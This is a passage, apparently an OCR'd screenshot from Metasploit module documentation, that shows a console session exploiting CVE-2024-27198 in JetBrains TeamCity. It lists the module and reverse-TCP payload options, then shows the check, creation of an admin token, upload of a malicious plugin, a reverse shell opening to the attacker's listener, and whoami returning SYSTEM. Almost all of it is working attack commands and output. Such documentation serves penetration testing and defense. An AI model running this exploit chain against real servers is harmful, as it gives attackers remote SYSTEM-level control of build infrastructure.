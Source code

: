 ```
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   CreateSession  true             no        Create a new session for every successful login
   LHOST          eth0             yes       The listen address (an interface may be specified)
   LPORT          4444             yes       The listen port
   SHELL                           no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   1   Java Server Page



View the full module info with the info, or info -d command.

msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > check
[+] 192.168.86.68:8111 - The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
msf exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Windows Server 2022.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.OFNzM2pkZW5IMXp0V2stY2VqWEtOZkpoOW9Z.ZWU4Y2I2ODgtZDQzMS00ZjE5LTk5NzgtNGY5YzMwM2VmMjcx
[*] Uploading plugin: jWHObFbu
[*] Deleting the plugin...
[*] Deleting the authentication token...
[*] Command shell session 2 opened (192.168.86.42:4444 -> 192.168.86.68:53110) at 2024-02-23 14:20:35 +0000
[!] This exploit may require manual cleanup of 'C:\TeamCity\webapps\ROOT\plugins\jWHObFbu' on the target
[!] This exploit may require manual cleanup of 'C:\TeamCity\work\Catalina\localhost\ROOT\TC_147512_jWHObFbu' on the target
[!] This exploit may require manual cleanup of 'C:\ProgramData\JetBrains\TeamCity\system\caches\plugins.unpacked\jWHObFbu' on the target


Shell Banner:
Microsoft Windows [Version 10.0.20348.1547]
(c) Microsoft Corporation. All rights reserved.
-----
          

c:\TeamCity\bin>whoami
whoami
nt authority\system

c:\TeamCity\bin>
```
